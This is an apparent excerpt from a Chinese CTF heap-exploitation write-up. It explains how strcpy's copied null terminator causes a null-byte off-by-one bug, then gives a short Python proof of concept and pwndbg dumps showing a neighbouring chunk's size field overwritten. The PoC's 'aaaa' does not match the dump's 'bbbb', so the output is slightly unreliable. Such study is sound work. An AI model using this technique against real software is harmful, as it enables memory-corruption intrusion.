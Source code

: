 ```c
    exit(-1);
  printf("Data:");
  read_chk_input(&buf, size);
  strcpy(note_chunk, &buf);
  note[i] = note_chunk;
  note_size[i] = size;
}
```

我们知道strcpy在拷贝字符串时连末尾的'\0'也会一起拷贝，假设我们的字符串长度刚好和所分配给它的长度相等，那么就可能会造成null-byte-off-by-one漏洞，我们简单的验证一下

```python
#poc
new(0x10,'a'*8)
new(0x110,'aaaa')
raw_input()

free(0)
new(0x18,'a'*0x18)
raw_input()
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Used                None              None
0x565258e29270      0x0                 0x110                Used                None              None

pwndbg> parseheap
addr                prev                size                 status              fd                bk   
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Freed 0x61616161616161610x6161616161616161
0x565258e29270      0x6161616161616161  0x100                Freed         0x62626262               0x0
Corrupt ?! (size == 0) (0x565258e29370)

```

```bash
pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x0000000000000000
0x565258e29270:	0x0000000000000000	0x0000000000000111
0x565258e29280:	0x0000000062626262	0x0000000000000000

pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x6161616161616161
0x565258e29270:	0x6161616161616161	0x0000000000000100   ==>这里原本应该为0x111但最末尾的0x11被0x00覆盖了
0x565258e29280:	0x0000000062626262	0x0000000000000000
```
